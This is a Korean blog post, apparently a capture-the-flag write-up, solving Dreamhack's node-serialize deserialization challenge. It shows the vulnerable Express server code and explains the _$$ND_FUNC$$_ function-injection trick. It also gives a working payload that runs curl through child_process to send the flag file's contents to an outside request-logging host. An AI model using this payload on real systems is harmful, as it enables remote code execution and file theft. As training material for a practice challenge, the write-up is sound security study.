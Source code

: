 ```yaml
---
title: (42) Dreamhack node-serialize 문제 풀이
date: 2024-02-27 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Node로 구현된 간단한 서버입니다. 취약점을 찾아 Flag를 획득하세요!
Flag는 `/app/flag` 에 있습니다. ( 플래그형식은 `FLAG{}`` 입니다. )

## 문제 풀이
접속해보면 사이트에 별거 없고 문자열만 하나 보입니다.  
바로 코드를 확인해 보겠습니다.
```javascript
const express = require('express');
const cookieParser = require('cookie-parser');
const serialize = require('node-serialize');
const app = express();
app.use(cookieParser())

app.get('/', (req, res) => {
    if (req.cookies.profile) {
        let str = new Buffer.from(req.cookies.profile, 'base64').toString();

        // Special Filter For You :)

        let obj = serialize.unserialize(str);
        if (obj) {
            res.send("Set Cookie Success!");
        }
    } else {
        res.cookie('profile', "eyJ1c2VybmFtZSI6ICJndWVzdCIsImNvdW50cnkiOiAiS29yZWEifQ==", {
            maxAge: 900000,
            httpOnly: true
        });
        res.redirect('/');
    }

});

app.listen(5000);
```
코드도 이게 전부입니다.  
  
문제 이름처럼, unserialize과정에서 발생하는 취약점을 이용한 문제입니다.
### unserialize 취약점
함수를 포함한 객체를 직렬화 하면
```
{"key":"_$$ND_FUNC$$_function() {}"}
```
의 형태로 출력됩니다. 이때 아래와 같이 실행하고자 하는 함수 마지막에 `()`을 추가하면
```
{"key":"_$$ND_FUNC$$_function() { console.log('Hello World!'); }()"}
```
위 문자열을 다시 역직렬화를 할 때 해당 함수를 실행시킬 수 있습니다.
<br>
  
우리는 `flag`를 읽어서 내부의 내용을 얻어야 합니다. 따라서 
```
{"hack":"_$$ND_FUNC$$_function() { require('child_process').exec('curl https://ksvbjlq.request.dreamhack.games?flag=$(cat flag)', () => {}); return true; }()"}
```
위와 `curl`을 이용해서 flag파일을 읽고 dreamhack tools로 보내도록 만들어 주었습니다.
이를 base64로 인코딩하여 `profile` 쿠키에 넣어주고 페이지를 새로고침하면
![](https://kyuyeop.github.io/assets/img/post/42/1.png)
위와 같이 `Set Cookie Success!`가 출력됩니다.  
이후 dreamhack tools로 가서 접속 로그를 확인해보면
![](https://kyuyeop.github.io/assets/img/post/42/2.png)
이렇게 FLAG가 확인할 수 있습니다.  
조건에 맞게 `{}`를 추가해 주면 flag를 구할 수 있습니다.
{% endraw %}